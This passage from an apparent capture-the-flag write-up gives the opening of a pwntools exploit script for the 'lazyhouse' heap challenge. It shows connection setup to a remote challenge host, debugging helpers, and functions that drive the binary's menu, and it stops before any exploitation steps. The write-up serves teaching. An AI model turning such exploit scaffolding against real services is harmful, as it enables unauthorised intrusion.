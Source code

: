 ### Full exploit script

My exploit script isn't exactly Balsn's exploit script. I modified it in some places, and also removed some stuff that wasn't required for the exploit to function. Overall, I hope this writeup and the comments on the script help people understand how the exploit works, because it truly is amazing. 

Big shoutout to **Balsn** for releasing the exploit script. I had lots of fun analysing it.
```python
#!/usr/bin/env python2

from pwn import *

BINARY = './lazyhouse'
HOST, PORT = '3.115.121.123', 5731

elf = ELF('./lazyhouse')
libc = ELF('./libc.so.6')

def start():
  if not args.REMOTE:
    print "LOCAL PROCESS"
    return process(BINARY)
  else:
    print "REMOTE PROCESS"
    return remote(HOST, PORT)

def get_base_address(proc):
  return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(p)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

def buy(idx, size, content):
  p.sendlineafter(': ', '1')
  p.sendlineafter(':', str(idx))
  p.sendlineafter(':', str(size))
  p.sendafter(':', content)

def show(idx):
  p.sendlineafter(': ', '2')
  p.sendlineafter(':', str(idx))

def sell(idx):
  p.sendlineafter(': ', '3')
  p.sendlineafter(':', str(idx))

def upgrade(idx, content):
  p.sendlineafter(': ', '4')
  p.sendlineafter(':', str(idx))
  p.sendafter(':', content)

def super_house(content):
  p.sendlineafter(': ', '5')
  p.sendafter(':', content)

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

p = start()
```